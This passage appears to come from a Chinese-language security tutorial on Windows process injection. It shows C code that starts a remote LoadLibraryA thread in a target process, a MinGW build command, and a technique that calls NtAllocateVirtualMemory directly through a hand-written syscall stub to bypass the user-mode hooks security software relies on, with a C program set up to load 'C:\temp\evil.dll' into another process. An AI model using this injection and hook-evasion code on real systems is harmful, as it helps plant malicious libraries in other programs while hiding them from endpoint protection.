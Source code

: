 ```
  // Start a new thread in the target process
  remoteThread = CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryFunction, remoteBuffer, 0, NULL);
  CloseHandle(targetProcess);
  return 0;
}
```  
  
编译  
```
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```  
  
windows10上运行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ9rXKkggKrpcjqTTh0jhQ3iadyrNSXFLnIdNwSRnppexm6YDScpj2bia1g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VZNmh6ic5umfAwo27ichgO5dI99KVZnKQ9WFWyP898pbQA1GtvZ0XbYsy5laBUtIziaZqr7WMgeUibOC8rRn2PBqjQ/640?wx_fmt=png&from=appmsg "")  
  
#### 02-用户层hook  
  
通常安全软件做行为监测使用，获取软件执行中重要信息，也可以查看可执行权限的内存，比对特征码识别恶意软件等，hook安装在syscalls前的最后一步  
#### 03-直接调用syscalls  
  
直接调用可以避免应用层hook监测，需要使用汇编编译相关代码  
  
创建一个syscall.asm  
```
section .text
global myNtAllocateVirtualMemory
myNtAllocateVirtualMemory:
  mov r10, rcx
  mov eax, 18h ; syscall number for NtAllocateVirtualMemory
  syscall
  ret
```  
  
编译成.o格式  
```
nasm -f win64 -o syscall.o syscall.asm
```  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

char maliciousLibraryPath[] = "C:\\temp\\evil.dll";
unsigned int maliciousLibraryPathLength = sizeof(maliciousLibraryPath) + 1;

extern "C" NTSTATUS myNtAllocateVirtualMemory(    HANDLE             ProcessHandle,    PVOID              *BaseAddress,    ULONG              ZeroBits,    PULONG             RegionSize,    ULONG              AllocationType,    ULONG              Protect);

int main(int argc, char* argv[]) {
  HANDLE targetProcess; // Handle to the target process
  HANDLE remoteThread;  // Remote thread
  LPVOID remoteBuffer;  // Remote buffer for data

  // Get the handle to Kernel32 and obtain function pointer
  HMODULE kernel32Handle = GetModuleHandle("Kernel32");
  VOID *loadLibraryFunction = (VOID*)GetProcAddress(kernel32Handle, "LoadLibraryA");

  // Parse the process ID
```